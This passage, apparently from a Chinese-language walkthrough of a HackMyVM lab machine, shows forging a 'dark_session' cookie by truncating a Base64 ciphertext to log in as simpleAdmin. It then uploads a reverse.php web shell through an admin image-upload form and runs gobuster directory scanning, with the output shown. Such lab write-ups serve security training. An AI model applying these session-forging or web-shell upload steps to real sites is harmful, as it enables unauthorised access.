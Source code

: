 7. 将此16字节密文进行Base64编码：

   ```bash
   ┌──(kali㉿kali)-[/mnt/hgfs/gx]
   └─$ echo "+1+3/NxCLcIR0Jq9qDudF8JwkfrsOdSxW16pbszGJLY=" | base64 -d | head -c 16 | base64
   +1+3/NxCLcIR0Jq9qDudFw==
   ```

8. 将得到的Base64编码后的字符串 `%2B1%2B3%2FNxCLcIR0Jq9qDudFw%3D%3D` (注意URL编码) 设置为 `dark_session` Cookie的值。

9. 访问 `http://dark.disguise.hmv/profile.php`，成功以 `simpleAdmin` 用户身份登录。
   ![image-20250516163748655](https://7r1umphk.github.io/image/20250516163749012.webp)
   这波操作，来之不易啊！

# 六、获取WebShell

以`simpleAdmin`身份登录后，进入后台管理页面 (`/manager/index.php`)，发现有添加商品的功能，并且可以上传商品图片。先上传了一个`reverse.php`
![image-20250516164155309](https://7r1umphk.github.io/image/20250516164155596.webp)

到首页查看源码，进入图片网址发现这个方式进入的不解析php

使用`gobuster`对 `dark.disguise.hmv` 站点进行目录扫描，确认图片上传路径。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx]
└─$ gobuster dir -u http://dark.disguise.hmv -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,txt,md,html,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dark.disguise.hmv
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,md,html,zip,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 282]
/.php                 (Status: 403) [Size: 282]
/images               (Status: 301) [Size: 323] [--> http://dark.disguise.hmv/images/]
/index.php            (Status: 200) [Size: 1020]
/login.php            (Status: 200) [Size: 1134]
# ... (部分输出) ...
/captcha.php          (Status: 200) [Size: 370]
^C
[!] Keyboard interrupt detected, terminating.
Progress: 20066 / 1323360 (1.52%)
===============================================================
Finished
===============================================================
```
